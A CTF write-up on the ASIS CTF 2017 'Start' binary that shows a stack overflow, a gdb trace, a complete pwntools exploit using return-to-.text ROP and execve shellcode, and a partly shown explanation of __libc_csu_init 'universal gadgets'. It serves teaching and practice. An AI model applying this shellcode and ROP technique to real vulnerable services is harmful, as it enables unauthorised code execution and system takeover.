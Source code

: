 # Return to .text section / Universal gadgets
## Circumvent mitigation techniques cause of lacking ROP gadgets or libc addy

--------------------------------------------------------------------------------
### Return to .text section
For this post I will use a task called "Start" from ASIS CTF 2017 as an simple but in my opinion extremely useful example
For this task you will be provided with a service that just allows you to put in data to it. At first let's check for mitigation mechanisms as usual

```
checksec --file ./Start $
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
```

So all the mechanisms all disabled...Back to the 90's ?
Let's take a look into the assembly code:

```
push rbp
mov rbp, rsp
sub rsp, 0x20
mov dword [rbp - 0x14], edi
mov qword [rbp - 0x20], rsi
lea rax, qword [rbp - 0x10]
mov edx, 0x400
mov rsi, rax
mov edi, 0
call sym.imp.read
mov eax, 0
leave
ret
```
Ok...reservation of 32 bytes after rbp for locals and it's storing our read input buffer on stack regardless of the string's length we provide.
It's a simple overflow bug with allows us to do a classical RIP overwrite.

But wait...There isn't any information leak returning us any stack or libc addy. And besides that the binary is extremely small, so we won't be lucky in searching for any gadgets that allow us to do any stack pivoting.
#### "Prepare for the worst..."
Luckily there is a technique called "return to text" which can bypass the lack of any good gadgets regardless if ASLR is enabled or not.
Cause that binary isn't compiled with PIE, .text and .bss sections won't be randomized. In short terms this technique works as follows:

1. Overwrite RIP by the address of any function that can read user supplied data (e.g. read, gets...called "A" below)
2. Set return address after "A"
3. Set argument of "A"
4. When running "A" will ask for input data
5. Inject shellcode
6. When "A" finishes it will directly jump to our shellcode

#### x86-64 syscalls
If the binary is compiled for amd64 architecture any arguments provided to a function call will be passed by registers.
First in rdi, second in rsi, third in rdx, then rcx, r8, r9 and so on. If other arguments have to pass, they will have been pushed on the stack. Syscall num is provided by rax (you can use a tool called "shellnoob" to bet syscall nums).

#### Lack of gadgets
If you open the binary in any ROP-finding toolset, you will just find a total of 62 gadgets. It seems not to be possible to use any meaningful combination to set all the registers.
One possibility for circumvent would be to check if we have any register pointing to a location within our input buffer.
And voilá...When ```main``` returns it doesn't clear the registers:

```
gdb ./Start $
Loaded 101 commands.  Type pwndbg [filter] for a list.
Reading symbols from ./Start...(no debugging symbols found)...done.
pwndbg> r < <(python -c 'print "A"*32')
Starting program: /home/felix/Dokumente/CTF/asisCTF_2017/Start/Start < <(python -c 'print "A"*32')

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400551 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
[───────────────────────────────────────────────────REGISTERS───────────────────────────────────────────────────]
 RAX  0x0
 RBX  0x0
*RCX  0x7ffff7b165a0 (__read_nocancel+7) ◂— cmp    rax, -0xfff
*RDX  0x400
 RDI  0x0
*RSI  0x7fffffffe230 ◂— 'AAAAAAAAAAAAAAA...'
*R8   0x4005d0 ◂— ret
*R9   0x7ffff7de8a50 (_dl_fini) ◂— push   rbp
*R10  0x37b
*R11  0x246
*R12  0x400430 ◂— xor    ebp, ebp
*R13  0x7fffffffe320 ◂— 0x1
 R14  0x0
 R15  0x0
*RBP  0x4141414141414141 ('AAAAAAAA')
*RSP  0x7fffffffe248 ◂— 'AAAAAAAA\n'
*RIP  0x400551 ◂— ret
```

#### Exploit
So we just have to put return addy to rsi and go on with a pop rsi gadget.
Payload will consist into rwo parts:

1. padding(24 bytes) + pop_rsi + read + ret addy + garbage + read_plt + ret addy
2. shellcode

```python
#!/usr/bin/env python

from pwn import *

r=process("./Start")
elf=ELF("./Start")
context.os="linux"
context.arch="amd64"
scode="\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
read=elf.symbols['read']
pop_rsi_r15=0x004005c1
bss = elf.bss() + 0x100


def overwrite():
    padding = "\x90"*24
    payload = flat([padding,pop_rsi_r15, bss, "aaaabbbb", read, bss])
    log.info("Read  @ 0x{:08X}".format(read))
    log.info("BSS  @ 0x{:08X}".format(bss))
    raw_input("[DEBUG]")
    r.sendline(payload)
    r.sendline(scode)
    r.interactive()

def main():
    overwrite()
if __name__=="__main__":
    main()
```

### Using universal gadgets

We could also take advantage by the use of so called "universal gadgets"

>Every program before run into ```main()``` will call ```__libc_csu_init()```
>This function contains some useful gadgets to support you when preparing registers for sysalls

```
0000000000400550 <.__libc_csu_init>:

[*snip*]

4005a0:       4c 89 ea                mov    rdx,r13
4005a3:       4c 89 f6                mov    rsi,r14
4005a6:       44 89 ff                mov    edi,r15d
4005a9:       41 ff 14 dc             call   QWORD PTR [r12+rbx*8]

[*snip*]

4005ba:       5b                      pop    rbx
4005bb:       5d                      pop    rbp
4005bc:       41 5c                   pop    r12
4005be:       41 5d                   pop    r13
4005c0:       41 5e                   pop    r14
4005c2:       41 5f                   pop    r15
4005c4:       c3                      ret
```

Last seven instructions will pop values to registers and then return. Main idea will be to call these instructions/gadgets and jump to the first four after all.
So the ROP chain will look like this:

Sequence 1:
| Instruction   | Expl                                                       |
|---------------|------------------------------------------------------------|
| pop rbx       | this register must be zero (it will be explained later on) |
| pop rbp       | must be equal to one                                       |
| pop r12       | address of instruction address                             |
| pop r13       | how many bytes to read                                     |
| pop r14       | destination address of shellcode (e.g. .bss + 0x100)       |
| pop r15       | some garbage                                               |
| ret           | put naxt garbage address                                   |

2. Sequence 2:

| mov rdx,r13                   | set 3rd argument                                           |
| mov rsi,r14                   | set 2nd argument                                           |                                  
| mov edi,r15d                  | [1]                                                        |                                  
| call QWORD PTR [r12+rbx*8]    | [2]                                                        |
| add rbx, 1                      | [3]                                                      |
| cmp rbx, rbp                    | [3]                                                        |
| jne 0x40059                     | [3]                                                        |
| add rsp, 0x8                    | [4]                                                        |                                    
| pop rbx                         | put garbage                                                |
| pop rbp                         | put garbage                                                |
| pop r12                         | put garbage                                                |
| pop r13                         | put garbage                                                |
| pop r14                         | put garbage                                                |
| pop r15                         | put garbage                                                |
| ret                             | .bss + 0x100                                               |

